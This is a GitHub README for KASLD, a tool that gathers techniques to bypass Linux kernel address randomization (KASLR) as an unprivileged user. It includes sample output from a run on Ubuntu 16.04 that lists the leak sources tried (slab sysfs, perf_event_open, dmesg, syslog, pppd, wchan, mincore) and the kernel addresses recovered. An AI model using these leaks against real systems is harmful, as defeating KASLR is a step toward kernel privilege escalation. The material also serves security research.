 # [ KASLD ] Kernel Address Space Layout Derandomization

A collection of various techniques to bypass Linux Kernel Address Space
Layout Randomization (KASLR) and retrieve the kernel base virtual address
on x86 / x86_64 architectures as an unprivileged local user.

The code is structed for easy re-use; however, leaked addresses
may need to be bit masked appropriately for the target kernel.

Various code snippets were taken from third-parties and may
have license restrictions. Refer to the reference URLs in the
comment headers available in each file for more information.

Android is not supported.


## Example Output

### Ubuntu 16.04 (x64)

```
$ ./kasld 
[ KASLD ] Kernel Address Space Layout Derandomization

Kernel release: 4.4.0-21-generic
Kernel version: #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
Kernel arch:    x86_64

kernel base (arch default): ffffffff81000000

[.] checking /boot/config ...

[.] trying /proc/cmdline ...

[.] trying /proc/kallsyms...
[-] kernel symbol 'startup_64' not found in /proc/kallsyms

[.] trying /sys/kernel/slab/ ...
leaked init_net: ffffffff81ef3cc0
kernel base (possible): ffffffff81e00000
kernel base (possible): ffffffff81000000

[.] trying perf_event_open sampling ...
lowest leaked address: ffffffff810031e8
kernel base (likely): ffffffff81000000

[.] checking dmesg for free_reserved_area() info ...
leaked address: ffffffff820b2000
kernel base (likely): ffffffff82000000
kernel base (likely): ffffffff81000000

[.] checking /var/log/syslog for free_reserved_area() info ...
leaked address: ffffffff820b2000
kernel base (likely): ffffffff82000000
kernel base (likely): ffffffff81000000

[.] searching dmesg ...

[.] trying 'pppd file /proc/kallsyms 2>&1' ...

[.] checking /proc/2091/stat 'wchan' field ...

[.] trying mincore info leak...
leaked address: ffffffff81220df0
```